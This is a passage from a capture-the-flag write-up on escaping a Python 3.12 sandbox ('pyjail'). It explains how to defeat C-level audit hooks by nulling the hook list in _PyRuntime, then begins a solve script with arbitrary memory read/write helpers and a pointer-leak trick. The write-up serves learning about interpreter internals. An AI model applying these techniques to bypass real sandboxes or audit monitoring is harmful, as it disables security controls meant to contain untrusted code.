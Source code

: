 But, as it seems to be the theme for this challenge, there are more hurdles to go over. Replacing `sys.audit` doesn't let us do `os.system`, since 
system is implemented in C, and calls the equivalent function in the Python C API instead. We still have a lot of things we can try out since we have 
both arbitrary access both inside and outside of the Python environment - just that we need more knowledge on the Python interpreter internals. 

# Finally, harmony

One such knowledge is the difference between C level audit hooks (`PySys_AddAuditHook`, triggers on every audit event including those in 
sub-interpreters) and Python level audit hooks (`sys.addaudithook`, triggers on a per-interpreter basis). This is important because they dictate 
where the audit hook actually resides (`_PyRuntime->audit_hooks` vs `PyInterpreterState->audit_hooks`). 

For our case, we only care about the `_PyRuntime` version since the audit hook is registered with the C API. This benefits us a fair bit - there is only 
one global `_PyRuntime` instance, and the data is written directly in the `.PyRuntime` segment. With some IDA referencing to get the offsets of 
`libpython3.12.so` (can't believe I'm saying this on a pyjail writeup), we can obtain the audit_hook head easily, and NULL it out so that on firing 
audit event Python would think there is no hooks registered.

With that, we have finally obtained the full solve script (with convenient annotations for what each section is for, since you probably skipped through all of the explanations didn't you 😢):

```py
#leak dict getitem

try:
    "{__getitem__.xx}".format_map(vars(dict))
except Exception as e:
    global g
    g = e.obj
    gi = lambda o, k: g(dict(vars(o)), k)

#get basic get/set operators for bytearrays

baset = g(dict(vars(bytearray)), "__setitem__")
baget = g(dict(vars(bytearray)), "__getitem__")

#other useful helpers

sa = gi(dict, "__setitem__")
ga = g(g(globals(), "__builtins__"), "getattr")

def read_qword(mem, addr):
    global baget
    b = []
    for i in range(8):
        b.append(baget(mem, addr + i))
    return int.from_bytes(bytes(b), 'little')

#using repr, since we cant use id (it would trigger an audit event)
#fun trick: for funcs that say <built-in method x> instead of the one with ptr, use method.__init__ and it would return the same val as id(method)
#another fun trick: for interned objects its at <value>.__new__
#fwiw object.__repr__(<val>) also works for everything but that requires a func call so we cant use it purely with str.format
def getptr(func):   
    a, b = str(func).split("0x")
    a, b = b.split(">")
    #print(a)
```